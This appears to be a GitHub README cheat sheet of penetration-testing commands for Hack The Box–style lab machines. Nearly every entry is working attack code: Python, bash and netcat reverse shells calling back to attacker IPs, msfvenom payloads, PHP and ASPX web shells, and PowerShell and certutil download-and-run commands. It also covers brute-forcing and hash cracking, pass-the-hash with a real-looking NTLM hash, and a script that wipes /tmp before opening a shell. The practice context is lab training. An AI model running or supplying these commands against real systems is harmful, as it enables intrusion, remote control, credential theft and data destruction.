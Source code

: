 <div align="center">
<h2>Helpful Syntaxes</h2>
</div>

| **Action** | **Syntax** |
| --- | --- |
| Dirbusting | `gobuster dir --url http://10.10.10.56/82/ --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x html,txt,php,asp,aspx`<br>`dirbuster&`<br>`dirsearch -u http://10.10.10.9/ -e php -x 403,404 -t 50` |
| Setting up a listener | `nc -nlvp 4444`<br>`C:\wmpub\nc.exe -e cmd.exe 10.10.14.46 1556`<br>`?cmd=nc.exe -e cmd.exe 10.10.14.31 4314` |
| Python reverse shell | `python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.16",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'` |
| Simple file/exploit creation | `echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.46",1235));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' > exploit.py` |
| Local exploit suggester | `run post/multi/recon/local_exploit_suggester` |
| msfvenom payload | `msfvenom -p windows/shell_reverse_tcp -f aspx LHOST=10.10.14.7 LPORT=1234 -o shell.aspx` |
| curl usage | `curl -X MOVE --header 'Destination:http://10.10.10.15/test.aspx' 'http://10.10.10.15/test.html'`<br>`curl -X PUT http://10.10.10.15/shell.txt -d @shell.txt` |
| Generic meterpreter shell | `use exploit/multi/handler`<br>`set payload windows/meterpreter/reverse_tcp` |
| Hosting the file for making it downloadable for another user | `sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali .`<br>`copy \\10.10.14.46\kali\churrasco.exe C:\wmpub\churrasco.exe`<br>`copy \\10.10.14.46\kali\churrasco.exe C:\wmpub\churrasco.exe 1 file(s) copied.` |
| Hydra bruteforce | `hydra 10.10.10.43 -l muq -P /usr/share/seclists/Passwords/twitter-banned.txt https-post-form "/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect password”` |
| PHP injection | `<?php system($_REQUEST["cmd"]); ?>`<br>`<?php echo system($_REQUEST['cmd']); ?>` |
| Bash reverse shell | `bash -c 'bash -i >%26 /dev/tcp/10.10.14.19/443 0>%261'` |
| Bash spawn / Python | `python -c 'import pty;pty.spawn("bash")'` |
| Shell upgrade | `stty -a`<br>`stty raw -echo;fg —> hit enter twice`<br>`stty rows`<br>`stty cols` |
| Script for listing processes | `#!/bin/bash`<br>`#loop by line`<br>`IFS=$'\n'`<br>`old_process=$(ps -eo command)`<br>`while true; do new_process=$(ps -eo command)`<br>`diff <(echo "$old_process") <(echo "$new_process") |grep [\<\>]`<br>`sleep 1`<br>`old_process=$new_process done` |
| Checking for hidden content inside an image | `binwalk -Me` |
| Python code cleanup format | `:%s/;/\r/g` |
| Windows exploit suggester script | `python windows-exploit-suggester.py -d 2024-08-02-mssb.xls -i sysinfo.txt` |
| Searchsploit | `-x ; to look up the content of the exploit , mousepad for gui ,  -m to download` |
| Copying nc | `cp /usr/share/windows-binaries/nc.exe .` |
| Simple HTTPS server | `python -m SimpleHTTPServer 80` |
| Getting something from the simple server [WINDOWS-powershell] | `powershell -c "Invoke-WebRequest -Uri http://10.10.14.8/41020.exeChimichurri.exe -OutFile C:\ColdFusion8\runtime\bin\Chimichurri.exe"` |
| Hashcat | `hashcat -m 100 hash.txt /usr/share/wordlists/rockyou.txt` |
| Certutil | `certutil -urlcache -f http://10.10.14.41/Chimichurri.exe chimichurri.exe`<br>`?cmd=certutil.exe -f -urlcache -split http://10.10.14.31/nc.exe nc.exe` |
| Wpscan script | `wpscan —url https://brainfuck.htb — disable-tls-checks` |
| John usage | `john crackthis --wordlist=/usr/share/wordlists/rockyou.txt` |
| SSH login w RSA key | `ssh -i  id_rsa orestis@brainfuck.htb` |
| PHP shell | `<?php system($_REQUEST["cmd"]); ?>` |
| DNS zone transfer | `USAGE- dig axfr @<DNS_IP> <DOMAIN>` |
| PHP reverse shell | `https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php` |
| Useful nmap script | `—script=oracle-sid-brute 10.10.10.12` |
| Nishang reverse shell | `cp /opt/powershell/nishang/Shells/Invoke-PowerShellTcp.ps1` |
| ASPX web shell | `/usr/share/webshells/aspx/cmdasp.aspx muq.aspx` |
| Using PowerShell to exec. content downloaded as a string | `powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.14.31:8000/nish.ps1')` |
| Volatility | `python3 http://vol.py/ -f ~/Downloads/SILO-20180105-221806.dmp kdbgscan`<br>`python2 http://vol.py/ -f ~/Downloads/SILO-20180105-221806.dmp --profile Win2012R2x64 pstree` |
| Using hash dump | `pth-winexe -U Administrator%aad3b435b51404eeaad3b435b51404ee:9e730375b7cbcebf74ae46481e07b0c7 https://10.10.10.82/ cmd` |
| Reverse shell | `#!/usr/bin/env python`<br>`import os`<br>`import sys`<br>`try:`<br>`os.system('rm -r /tmp/* ')`<br>`except:`<br>`sys.exit()`<br>`os.system('bash -c "bash -i >& /dev/tcp/10.10.14.47/443 0>&1"')` |

<br>

<div align="center">
<h2>Useful Links</h2>
</div>


| **Description** | **Link** |
| --- | --- |
| Reverse shell cheat sheet | [Pentestmonkey Reverse Shell Cheat Sheet](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) |
| SQL injection cheat sheet | [SQL Injection Cheat Sheet](https://www.invicti.com/blog/web-security/sql-injection-cheat-sheet/) |
| Crontab Guru | [Crontab Guru](https://crontab.guru/) |
| PHP reverse shell | [PHP Reverse Shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) |
